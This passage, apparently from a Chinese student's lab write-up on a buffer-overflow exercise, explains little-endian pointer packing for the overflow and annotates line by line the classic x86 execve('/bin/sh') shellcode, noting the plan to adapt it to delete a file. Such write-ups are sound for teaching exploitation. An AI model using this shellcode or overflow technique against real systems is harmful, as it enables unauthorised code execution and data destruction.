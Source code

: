 这里要注意，我们是使用单字节 string 来溢出，在内存中是直接顺序存储的，而 4 字节的指针则是按小端序（x86）存储（指针值的低位要放到低地址），因此要使用 `struct.pack('<L', stack_saved_ebp + 8)` 来转换顺序。

下一步，按实验的要求，修改 shellcode 为 unlink（删除）指定文件。

首先学习一下教材的样例 shellcode.S 是怎么写的，它的目标是调用 execve 系统调用来执行 /bin/sh。

execve 系统调用的原型是：

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

其中 pathname 是可执行文件的 pathname， argv[] 是 string 指针数组，指向要传递给该新程序的各个参数（ vector），其中 argv[0] 第一个参数约定是指向被执行文件的 filename（就是 pathname），argv 必须以 NULL 指针中断。

envp[] 也是 string 指针数组，指向的字符串是 key=value 形式，代表该执行程序的将设置的环境变量。同样必须以 NULL 指针中断。

shellcode.S 逐行解读如下：

```assembly
#include <sys/syscall.h>

#define STRING    "/bin/sh"
#define STRLEN    7
#define ARGV      (STRLEN+1)
#define ENVP      (ARGV+4)

.globl main
    .type   main, @function

 main:
    jmp     calladdr  //编译后机器码的第一个指令，就是跳转到末尾的 calladdr */

 popladdr:
    /* 首先要把 syscall 的参数（在栈上）准备好
    popl    %esi             /* 配合之前的 push STRING，这里 pop 恰好就把 STRING 的首地址放到了 esi，妙 */
    movl    %esi,(ARGV)(%esi)     /* set up argv pointer to pathname */
                                  /* esi 偏移 + 7（含null的字符串长度）*/
                                  /* 紧跟着 STRING （含 NULL）后，放置 argv pointer */
    xorl    %eax,%eax        /* get a 32-bit zero value */
    movb    %al,(STRLEN)(%esi)    /* null-terminate our string */ /* 为 STING 末尾补足 NULL */
    movl    %eax,(ENVP)(%esi)     /* set up null envp */
                                  /* 填充 ENVP 为 NULL，等价于为 ARGV 补充了一个 NULL 截断 */

    /* 接下来把准备好的参数，逐个放置到 register 中 */
    movb    $SYS_execve,%al        /* syscall arg 1: syscall number */ 
    movl    %esi,%ebx        /* syscall arg 2: string pathname */
    leal    ARGV(%esi),%ecx        /* syscall arg 2: argv */
    leal    ENVP(%esi),%edx        /* syscall arg 3: envp */
    int     $0x80            /* invoke syscall */

    /* 执行 exit 系统调用，让程序安静地退出。 */
    xorl    %ebx,%ebx        /* syscall arg 2: 0 */
    movl    %ebx,%eax
    inc     %eax         /* syscall arg 1: SYS_exit (1), uses */ //exit 的 syscall number 是 1
                         /* mov+inc to avoid null byte */
                         /* 这里不用立即数 1 是为了避免 shellcode 出现 NULL 字节 */
                         /* 以免 shellcode 传递过程中被截断 */
    int     $0x80        /* invoke syscall */

 calladdr:
    call    popladdr /* call 指令的作用，1. push 下一行代码的地址到栈，即 STRING 的地址；2. 进入 ppladdr 执行后续指令 
    .ascii  STRING
```
{: file='shellcode.S'}
